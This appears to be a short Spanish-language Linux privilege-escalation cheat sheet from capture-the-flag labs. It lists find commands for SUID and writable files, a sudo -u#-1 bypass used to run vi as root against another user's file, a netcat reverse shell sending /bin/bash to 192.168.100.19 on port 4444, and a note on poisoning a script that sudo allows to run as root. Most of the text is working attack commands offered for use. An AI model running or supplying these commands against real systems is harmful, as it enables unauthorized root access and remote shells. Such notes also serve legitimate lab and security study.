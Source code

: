 # Buscar archivos binarios (SUID)
Ejemplo 1: `$ find /bin -perm -4000`

Ejemplo 2: `$ find / -user root -perm -4000 -exec ls -ldb {} \;`

Ejemplo 3: `$ find \-perm -4000 2>/dev/null`

Ejemplo: 4 `$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

# Buscar archivos con permisos de escritura

`$ find \-writable 2>/dev/null`
___

# SUID (vi) vulnerability
`$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

# nc vulnerability (old version)
`$ /bin/netcat -e /bin/bash 192.168.100.19 4444`

# Escalar privilegios aprovechando una tarea especifica
### Ejemplo

`$ www-data@THM-Chal:/home/itguy$ sudo -l`
	
	Matching Defaults entries for www-data on THM-Chal:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User www-data may run the following commands on THM-Chal:
		(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
		
*Nota: debemos tener en cuenta a que archivo llama backup.pl para poder envenenar el archivo y ejecutarlo con permisos de administrador.*
### Ejecutar el archivo para escalar privilegios 
`$ sudo /usr/bin/perl /home/itguy/backup.pl`
